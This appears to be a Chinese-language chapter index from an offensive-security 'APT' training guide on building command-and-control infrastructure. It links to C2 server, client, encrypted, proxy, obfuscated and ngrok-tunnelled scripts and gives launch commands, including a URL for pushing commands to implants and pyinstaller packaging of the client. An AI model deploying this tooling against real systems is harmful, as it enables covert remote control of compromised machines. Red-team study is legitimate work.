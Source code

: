 ## 基础通信

[c2_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%9F%BA%E7%A1%80%E9%80%9A%E4%BF%A1/c2_server.py)

```bash
python3 c2_server.py
```

[c2_client.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%9F%BA%E7%A1%80%E9%80%9A%E4%BF%A1/c2_client.cpp)

```bash
http://IP地址:8080/update_command?cmd="new command"
```

## 加密通信

[crypto_c2.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%8A%A0%E5%AF%86%E9%80%9A%E4%BF%A1/crypto_c2.py)

```bash
python3 crypto_c2.py
```

[crypto_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%8A%A0%E5%AF%86%E9%80%9A%E4%BF%A1/crypto_client.py)

```bash
pyinstaller --onefile .\crypto_client.py
```

```bash
http://IP地址:8080/update_command?cmd="New command"
```

## C2基础设施搭建

### 代理服务器

[c2_proxy_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_proxy_server.py)

```bash
python3 c2_proxy_server.py
```

[c2_agent.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_agent.py)

[c2_agent_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_agent_client.py)

```bash
http://IP地址:8080/update_command?cmd="New command"
```

### 流量混淆

[c2_encode_wt.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_encode_wt.py)

[c2_encode_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_encode_client.py)

[change_command.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/change_command.py)

```bash
python3 c2_encode_wt.py
python3 c2_encode_client.py
python3 change_command.py
```

### 内网穿透

[Ngrok](https://dashboard.ngrok.com/get-started/setup/linux)

```bash
tar -zxvf ngrok软件包 -C /usr/local/bin
ngrok config add-authtoken 认证令牌
```

```bash
python3 c2_encode_wt.py
ngrok http 8080
```

[c2_ngrok.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_ngrok.py)

```bash
python3 c2_ngrok.py
python3 change_command.py
```

